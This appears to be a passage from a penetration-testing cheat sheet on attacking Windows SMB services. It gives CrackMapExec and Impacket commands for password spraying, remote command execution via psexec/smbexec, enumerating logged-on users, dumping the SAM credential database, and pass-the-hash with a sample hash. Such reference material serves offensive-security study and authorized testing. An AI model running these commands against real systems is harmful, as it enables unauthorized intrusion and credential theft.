 ### Bruteforcing/Password Spraying
#### CrackMapExec
For non-domain joined hosts, we need to specify the `--local-auth` option.

By default, CME will quit after a succesful finding. this could be disabled with `--continue-on-success`

```bash
crackmapexec smb 10.10.110.17 -u users.list -p '<password>' --local-auth
```

## Exploiting SMB

As Microsoft always delivers, the attack vector on the Windows implementation of SMB is much significant than on Linux.


### RCE - PSExec

Simply login using the admin creds and go on further inside the machine.

```bash
impacket-psexec administrator:'<password>'$target

```

The same option applies for both `impacket-smbexec` and `impacket-atexec`.

### RCE - CrackMapExec

```bash
crackmapexec smb $target-range -u Administrator -p '<password>' -x 'whoami' --exec-method smbexec
```
This has the advantage of executing the same command on multiple hosts

>Note: If the `--exec-method` is not defined, CrackMapExec will try to execute the `atexec` method, 
if it fails you can try to specify the ``--exec-method smbexec` .
{: .prompt-warning }


### Enumerate logged-on users
```bash
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

### Dump SAM database
```bash
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

### PassTheHash
Much more discussed in detail in previous sections.
```bash
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```
